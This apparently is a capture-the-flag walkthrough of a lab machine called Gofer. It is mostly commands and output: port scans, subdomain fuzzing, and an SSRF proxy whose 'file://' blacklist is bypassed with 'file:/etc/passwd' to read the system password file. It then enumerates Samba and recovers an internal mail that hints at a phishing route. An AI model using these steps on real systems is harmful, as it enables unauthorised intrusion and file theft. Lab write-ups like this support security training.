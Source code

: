 gofer 10.10.11.225

nmap -p- --min-rate 4000 10.10.11.225
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 08:22 CEST
Nmap scan report for 10.10.11.225
Host is up (0.20s latency).
Not shown: 63571 filtered tcp ports (no-response), 1960 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

nmap -p 80,139,445 -sC -sV --min-rate 3000 10.10.11.225

Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 08:26 CEST
Nmap scan report for 10.10.11.225
Host is up (0.12s latency).

PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Did not follow redirect to http://gofer.htb/
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: Host: gofer.htb

Host script results:
| smb2-time: 
|   date: 2023-08-03T06:26:56
|_  start_date: N/A
|_nbstat: NetBIOS name: GOFER, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: 1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.23 seconds

echo "10.10.11.225 gofer.htb" | sudo tee -a /etc/hosts

**Corporate website**
Jeff Davis - Chief Executive Officer 
Jocelyn Hudson - Product Manager 
Tom Buckley - CTO 
Amanda Blake - Accountant 

wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 400,301 -H 'Host:FUZZ.gofer.htb' http://gofer.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://gofer.htb/
Total requests: 220560

'=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                     
'=====================================================================

000001171:   401        14 L     54 W       462 Ch      "proxy" 

┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php

<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>

┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST -d 'URL=http://10.10.16.26' http://proxy.gofer.htb/index.php
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>

┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=http://10.10.16.26
<!-- Welcome to Gofer proxy -->

┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=file:///etc/passwd
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: file:// !</body></html>

┌─[xbutch@parrot]─[~]
└──╼ $curl -X POST http://proxy.gofer.htb/index.php?url=file:/etc/passwd
<!-- Welcome to Gofer proxy -->
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
jhudson:x:1000:1000:Jocelyn Hudson,,,:/home/jhudson:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
postfix:x:106:113::/var/spool/postfix:/usr/sbin/nologin
jdavis:x:1001:1001::/home/jdavis:/bin/bash
tbuckley:x:1002:1002::/home/tbuckley:/bin/bash
ablake:x:1003:1003::/home/ablake:/bin/bash
tcpdump:x:107:117::/nonexistent:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false

┌─[xbutch@parrot]─[~]
└──╼ $smbmap -H 10.10.11.225
[+] IP: 10.10.11.225:445	Name: gofer.htb                                         
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	**shares**                                            	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.13.13-Debian)

┌─[xbutch@parrot]─[~]
└──╼ $smbclient //gofer.htb/shares
Password for [WORKGROUP\xbutch]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Oct 28 21:32:08 2022
  ..                                  D        0  Fri Apr 28 13:59:34 2023
  .backup                            DH        0  Thu Apr 27 14:49:32 2023
		5061888 blocks of size 1024. 2153684 blocks available
smb: \> cd .backup
smb: \.backup\> ls
  .                                   D        0  Thu Apr 27 14:49:32 2023
  ..                                  D        0  Fri Oct 28 21:32:08 2022
  mail                                N     1101  Thu Apr 27 14:49:32 2023

		5061888 blocks of size 1024. 2153628 blocks available
smb: \.backup\> get mail
getting file \.backup\mail of size 1101 as mail (3,0 KiloBytes/sec) (average 3,0 KiloBytes/sec)

┌─[xbutch@parrot]─[~]
└──╼ $cat mail
From **jdavis@gofer.htb**  Fri Oct 28 20:29:30 2022
Return-Path: <jdavis@gofer.htb>
X-Original-To: tbuckley@gofer.htb
Delivered-To: **tbuckley@gofer.htb**
Received: from gofer.htb (localhost [127.0.0.1])
        by gofer.htb (Postfix) with SMTP id C8F7461827
        for <tbuckley@gofer.htb>; Fri, 28 Oct 2022 20:28:43 +0100 (BST)
Subject:Important to read!
Message-Id: <20221028192857.C8F7461827@gofer.htb>
Date: Fri, 28 Oct 2022 20:28:43 +0100 (BST)
From: jdavis@gofer.htb

Hello guys,

Our dear Jocelyn received another phishing attempt last week and his habit of clicking on links without paying much attention may be problematic one day. That's why from now on, I've decided that important documents will only be sent internally, by mail, which should greatly limit the risks. If possible, use an **.odt format**, as documents saved in Office Word are not always well interpreted by Libreoffice.

PS: Last thing for Tom; I know you're working on our web proxy but if you could restrict access, it will be more secure until you have finished it. It seems to me that it should be possible to do so via <Limit>

https://github.com/tarunkant/Gopherus
